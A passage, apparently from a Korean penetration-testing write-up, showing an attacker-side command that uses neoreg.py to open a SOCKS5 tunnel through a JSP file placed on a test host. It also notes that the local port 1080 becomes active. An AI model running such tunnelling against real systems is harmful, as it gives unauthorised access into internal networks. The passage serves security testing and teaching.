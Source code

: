 ![Untitled](/assets/2024-03-20//Untitled%2016.png)

이후 neoreg.py를 통해 SOCK5 통신을 열면 127.0.0.1:1080이 활성화되는 것을 확인할 수 있습니다.

```bash
# attacker
$ python3 neoreg.py -k password -u http://pentest.yoobi.kr:10501/tunnel2/tunnel.jsp
```
